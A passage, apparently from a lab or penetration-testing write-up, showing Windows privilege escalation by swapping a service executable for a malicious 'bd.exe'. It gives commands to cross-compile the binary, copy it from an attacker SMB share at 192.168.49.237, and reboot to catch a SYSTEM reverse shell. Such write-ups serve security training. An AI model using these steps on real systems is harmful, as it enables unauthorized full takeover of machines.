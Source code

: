 On reboot, this will spawn a new reverse shell as SYSTEM.

Cross-compile for Windows: `i686-w64-mingw32-gcc addAdmin.c -o bd.exe`

Move the existing `bd.exe`: `move bd.exe bd.service.exe`

Copy the new malicious `bd.exe`: `copy \\192.168.49.237\ROPNOP\bd.exe .`

Now restart the system: `shutdown /r`. We should be able to catch a shell as SYSTEM:

![](<../../.gitbook/assets/93fb81e275c546ce9fb9f6c6cd06e8d9 (1).png>)

![](../../.gitbook/assets/51635976728b488aa4e72138b73b9669.png)
